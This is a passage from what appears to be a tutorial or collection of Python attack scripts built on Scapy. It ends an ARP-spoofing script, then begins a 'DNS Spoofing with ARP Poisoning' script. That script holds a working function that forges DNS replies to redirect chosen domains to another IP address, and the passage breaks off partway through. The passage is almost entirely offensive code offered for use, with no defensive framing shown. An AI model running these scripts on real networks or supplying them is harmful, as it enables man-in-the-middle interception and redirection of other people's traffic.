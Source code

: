 ```python
    print("[*] Restoring target...")
    # Tell target the correct gateway MAC
    send(ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=gateway_mac), count=5)
    # Tell gateway the correct target MAC
    send(ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=target_mac), count=5)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: ./arp_spoof.py TARGET_IP GATEWAY_IP")
        sys.exit(1)
    
    target_ip = sys.argv[1]
    gateway_ip = sys.argv[2]
    
    arp_poison(target_ip, gateway_ip)
```

#### 2. DNS Spoofing with ARP Poisoning

```python
#!/usr/bin/env python3
from scapy.all import *
import threading
import os
import sys
import time

# Domains to spoof
domains_to_spoof = {
    b"www.example.com.": "192.168.1.100",
    b"example.com.": "192.168.1.100"
}

def dns_spoof(pkt):
    """
    Check for DNS queries for domains we want to spoof
    """
    if (DNS in pkt and pkt[DNS].qr == 0):  # DNS query
        domain = pkt[DNS].qd.qname
        if domain in domains_to_spoof:
            print(f"[*] Spoofing DNS response for {domain.decode()}")
            
            # Create spoofed response
            spoofed_ip = domains_to_spoof[domain]
            # Create the response packet
            resp = (IP(dst=pkt[IP].src, src=pkt[IP].dst)/
                   UDP(dport=pkt[UDP].sport, sport=53)/
                   DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,
                       an=DNSRR(rrname=domain, ttl=10, rdata=spoofed_ip)))
            
            # Send the spoofed packet
            send(resp, verbose=0)
            print(f"[+] Sent spoofed response for {domain.decode()} to {pkt[IP].src}")

def arp_poison(target_ip, gateway_ip):
    """
    ARP poison the target and gateway
    """
    # Similar to the previous example...
    # Implementation omitted for brevity

def packet_sniffer(filter_exp):
```